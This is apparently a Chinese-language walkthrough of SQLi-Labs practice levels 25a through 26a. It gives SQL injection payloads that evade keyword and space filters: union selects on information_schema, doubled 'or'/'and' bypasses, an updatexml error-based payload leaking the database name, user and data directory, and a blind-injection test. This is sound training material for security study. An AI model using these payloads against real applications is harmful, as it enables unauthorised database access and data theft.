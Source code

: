## 第二十五a关-过滤or和and

这关没有报错回显，利用联合注入即可

-1 union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata

![image-20240405154258563](PictureFile/SqliLabs通关.assets/image-20240405154258563.png)

## 第二十六关-过滤空格、注释、or、and

1'aandnd(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))oorr'1'='1

过滤空格：1、空白符绕过 2、多行注释/**/绕过 3、括号绕过

过滤注释：单引号绕过

过滤or、and：双写绕过

![image-20240405155737257](PictureFile/SqliLabs通关.assets/image-20240405155737257.png)

## 第二十六关a-过滤空格、注释、or、and

没有报错提示，不能用函数报错，可以利用盲注

过滤空格：1、空白符绕过 2、多行注释/**/绕过 3、括号绕过

过滤注释：单引号绕过

过滤or、and：双写绕过

1') anandd (length(database())>1) anandd ('1'='1

![image-20240405161537782](PictureFile/SqliLabs通关.assets/image-20240405161537782.png)
